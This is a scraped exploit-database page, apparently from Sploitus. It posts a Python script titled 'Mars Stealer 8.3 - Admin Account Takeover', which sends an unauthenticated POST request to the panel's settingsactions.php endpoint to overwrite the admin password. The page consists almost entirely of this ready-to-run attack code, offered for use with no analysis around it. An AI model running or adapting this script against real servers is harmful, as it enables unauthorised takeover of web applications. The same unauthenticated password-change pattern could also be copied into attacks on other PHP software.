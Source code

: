 ```yaml
---
title: Mars Stealer 8.3 - Admin Account Takeover Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38624&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-26
fetch_date: 2025-10-04T11:32:48.296737
---
```


# Mars Stealer 8.3 - Admin Account Takeover Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Mars Stealer 8.3 - Admin Account Takeover Exploit

2023-04-25 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38624
# Exploit Title: Mars Stealer 8.3 - Admin Account Takeover
# Product: Mars Stelaer
# Technology: PHP
# Version: < 8.3
# Google Dork: N/A
# Date: 20.04.2023
# Tested on: Linux
# Author: Sköll - twitter.com/s_k_o_l_l

import argparse
import requests

parser = argparse.ArgumentParser(description='Mars Stealer Account Takeover Exploit')
parser.add_argument('-u', '--url', required=True, help='Example: python3 exploit.py -u http://localhost/')
args = parser.parse_args()

url = args.url.rstrip('/') + '/includes/settingsactions.php'
headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Sköll", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Origin": url, "Referer": url, "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US;q=0.8,en;q=0.7"}
data = {"func": "savepwd", "pwd": "sköll"} #change password
response = requests.post(url, headers=headers, data=data)

if response.status_code == 200:
    print("Succesfull!")
    print("New Password: " + data["pwd"])
else:
	print("Exploit Failed!")
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)